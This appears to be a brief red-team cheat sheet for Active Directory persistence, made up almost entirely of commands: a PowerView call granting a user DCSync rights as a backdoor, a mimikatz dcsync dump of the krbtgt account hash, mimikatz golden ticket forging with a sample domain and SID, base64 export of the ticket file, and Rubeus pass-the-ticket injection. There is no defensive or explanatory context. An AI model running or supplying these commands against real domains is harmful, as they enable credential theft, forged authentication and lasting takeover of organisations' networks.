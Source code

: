 ### DCSync Backdoor

 On Domain admin privilege Console 
```

 PowerShell Add-DomainObjectAcl -TargetIdentity 'DC=insomnia,DC=io' -PrincipalIdentity 'r.meyer' -Rights DCSync 
 ```
 On Local Admin privilege Console
 ```

 lsadump::dcsync /user:krbtgt /domain:insomnia.io
```
### Golden Tickets
```
kerberos::golden /user:<> /domain:<> /sid:<> /krbtgt:<> /ticket:golden.kirbi

kerberos::golden /user:Administrator /domain:insomnia.io /sid:S-1-5-21-3865823697-1816233505-1834004910 /krbtgt:REDACTED /ticket:golden.kirbi

[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\IEUser\Desktop\golden.kirbi"))

Rubeus ptt /ticket:[...snip...]
```
